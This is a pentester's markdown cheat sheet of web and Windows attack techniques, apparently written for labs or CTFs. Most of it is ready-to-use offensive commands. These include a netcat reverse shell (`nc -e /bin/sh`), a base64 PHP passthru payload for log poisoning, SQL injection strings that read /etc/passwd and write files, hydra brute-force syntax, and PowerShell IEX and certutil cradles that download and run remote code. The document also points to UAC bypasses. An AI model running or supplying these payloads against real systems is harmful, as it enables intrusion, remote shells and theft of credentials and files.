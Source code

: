 # Tools

#### RCE

`;` or `|` to add commands

***

#### LFI

* traverse directories
* `/proc/self/environ`
  * can also be done on other log files
  * can send base64 encoded scripts through and decode
  * `ssh [payload]@[hostip]`
  * payload would be something like `<?php passthru(base64_decode('[b64encoded string]')); ?>`
* use burp to mod headers
* `nc -e /bin/sh [ip] [port]`
  * add listener first `nc -lvnp [port]`
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

***

#### RFI

* storing a txt file on webserver of a machine we have access to which can connect to the machine we want access to (we want to attack MS VM we have access to Kali VM, store file on Kali, use LFI but pass in url to file to pull, add `?` to param to get it to execute as php, change caps of protocol for bypassing some checks)

***

#### File uploads

* change mime type
* change file extension
* add magic characters

***

#### SQL Injection

* in forms:
  * check with `pass' and 1=1#` in password field if you have a valid login
  * can also use `pass' OR 1=1#` with an invalid login but have a good username
  * could also just use username field if good username: `admin'#`
  * if there are checks on the client side, can remove onsubmit functions in the dom or intercept good data on burp and modify before it's sent to include the SQLi
* in get params:
  * try `order by 1#`, may have to urlencode `#` to `%23`
  * use this to increment through column count then you can `union select 1,2,3..n%23`
  * `union select 1,table_name,null,null,..,n from information_scema.tables`
  * etc,etc
* to bypass some filtering, you may need to convert strings into hex, urlencode everything and send it
* sometimes changing param sequences or case will bypass some filters as well
* when records are limited, iterate in sql to get all info desired
  *
    * `limit 0,1` then `1,1`, `2,1`, etc etc
* reading files: `union select load_file('/etc/passwd'),2 #`
* write to file: `union select 'test text',null into outfile '/var/www/output.txt'#`
  * may not have write access, use LFI for possible workaround if available - write to /tmp with sql injection, use LFI to access file (could also to RFI if separate machines have different vulns)
* Tools
  * sqlmap
    * `sqlmap -r [filename].req --level 4 --risk 3`

***

#### XSS

* more info from python course
* url params and input boxes
* `<script>alert('1')</script>`
* often change case to fool filters
* look at page source to see how code is being output and modify accordingly
* urling urlencoding is almost always helpful
* always try to modify the DOM (remove inline methods, remove maxlength attributes, etc)
* get charcode, use String.fromCharCode instead of using quotes

***

#### Cookies

* simple cookies can be manipulated to allow access (uid, etc)

***

#### CSRF

* make a hidden version of a form that submits on load

***

#### Creating Wordlists

* crunch: `crunch [min] [max] [chars] -t [pattern] -o [filename]`
* `crunch 6 8 123abc$ -o wordlist -t a@@@@b`, 6-8 chars, include 1,2,3,a,b,c,$, start with a, end with b

***

#### encrypted cookies

* can sometimes be busted with padbuster

***

#### Brute forcing

* Hydra
  * `hydra [hostIP] -l [login] -L [loginfile] -p [pass] -P [passfile] -C [user:pass file] [service]`
  * for web form, append `"path-to-form.ext:[username]=^USER^&password=^PASS^&other-param=param:F=Not Logged In String"`

***

#### WFUZZ

* Need notes!!!

***

#### ZAP

* automated scanning, but more manual than many of the tools
* can audit all scans after

***

#### hashcat

* `hashcat --example-hashes`
* LUKS exncrypted disk images
  * `cryptsetup luksDump [imgfile]` to get payload offet +1
  * `dd if=[imgfile] of=[outfile] bs=512 count=[offset]`
  * `hashcat -m 14600 [file] [wordlist]`

***

#### mounting LUKS disk image

* `cryptsetup luksOpen backup.img [name]`
* `ls /dev/mapper`
* `mount /dev/mapper/[name] /mnt`

***

#### PowerShell

* powershell can switch from cmd to powershell
* Downloading files:
  * `IEX(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `Invoke-WebRequest -Uri http://[host]/[file]`
    * `IWR -uri http://[host]/[file]` also works
    * `-OutFile C:\\windows\\temp\\filename.ext` to specify a filename
  * if in cmd shell, need to use `powershell` prefix
* listing all files:
  * `gci -recurse . | select fullname`
* copy binary file to b64 string for rebuilding:
  * `certutil -encode [filepath] [outfile path].b64`
  * `type [outfile path].b64`
  * copy, paste to file on host
  * base64 decode it:
    * `base64 -d [filename].b64 > [filename].ext`
* creating credentials from string
  * `$pass = ConvertTo-SecureString '[pass]' -AsPlainText -Force`
  * `$cred = New-Object System.Management.Automation.PSCredential("[user]",$pass)`
  * `hostname`
  * `Invoke-Command -Computer [hostnmame] -ScriptBlock { whoami } -Credential $cred`
    * can use this to then run another IWR to grab a shell and get escalated shell
* useful to use rlwrap on your listener:
  * `rlwrap nc -lvnp 9001` - this will give history up arrow, ctrl L to clear, etc.
* bypass admin lockout if in admin group
  * `net use Z: \\127.0.0.1\c$`
  * `z:`
* UACME for ways to bypass UAC

***

#### CMD

* download a file
  * `certutil -urlcache -f http://[host]/[file] [outfile path]`

***

#### TheHarvester

#### whatweb

#### wappalyzer

#### pownjs

#### enum4linux
